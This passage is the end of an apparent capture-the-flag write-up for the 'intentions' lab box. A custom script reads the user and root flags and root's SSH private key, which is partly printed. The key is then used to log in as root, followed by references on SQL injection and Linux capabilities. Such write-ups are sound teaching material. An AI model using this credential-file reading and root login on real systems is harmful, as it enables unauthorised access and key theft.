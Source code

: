```python


print(f"File content: \n{decoded_text}")
```

Testing this with the user flag is successful, meaning the script works!

```bash
(remote) greg@intentions:/tmp$ cat ~/user.txt
c317b23bf4affb80fd3d93b813dcaaf1
(remote) greg@intentions:/tmp$ python3 gimme_root.py /home/greg/user.txt
File content:
c317b23bf4affb80fd3d93b813dcaaf1
```

Similarly, the root flag can be obtained using a similar approach. By running a loop and sequentially matching hash values, the flag's characters can be decoded and the root flag extracted.

```bash
(remote) greg@intentions:/tmp$ python3 gimme_root.py /root/root.txt
File content:
de01b4e5992cf6a18283887bdc30b11d
```

Retrieved the SSH private key using the same script.

```bash
(remote) greg@intentions:/tmp$ python3 gimme_root.py /root/.ssh/id_rsa
File content:
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
...snip...
```

The SSH key can be used to log in as the root user via SSH.

```bash
> pc root@intentions.htb -i id_rsa.root
[11:32:58] Welcome to pwncat 🐈!                                                                    __main__.py:164
[11:33:00] intentions.htb:22: registered new host w/ db                                              manager.py:957
(local) pwncat$
(remote) root@intentions:/root# id
uid=0(root) gid=0(root) groups=0(root)
```

**Pwned!!**




## References

- [SQL injection (second order) - PortSwigger](https://portswigger.net/kb/issues/00100210_sql-injection-second-order)
- [SQLMap Tamper Scripts (SQL Injection and WAF bypass) - Starter Zone - Bugcrowd Forum](https://forum.bugcrowd.com/t/sqlmap-tamper-scripts-sql-injection-and-waf-bypass/423)
- [Second Order SQLI: Automating with sqlmap · Jorge Lajara Website](https://jlajara.gitlab.io/Second_order_sqli)
- [Bypassing Web Application Firewalls with SQLMap Tamper Scripts](https://web.archive.org/web/20171224101008/https://www.websec.ca/blog/view/Bypassing_WAFs_with_SQLMap)
- [SQLMap Tamper Scripts (SQL Injection and WAF bypass) Tips | by Dragon Security | Medium](https://medium.com/@drag0n/sqlmap-tamper-scripts-sql-injection-and-waf-bypass-c5a3f5764cb3)
- [Exploiting Arbitrary Object Instantiations in PHP without Custom Classes – PT SWARM](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)
- [Exploiting Linux Capabilities – Part 2](https://tbhaxor.com/exploiting-linux-capabilities-part-2/)
- [capabilities(7) - Linux manual page](https://man7.org/linux/man-pages/man7/capabilities.7.html)
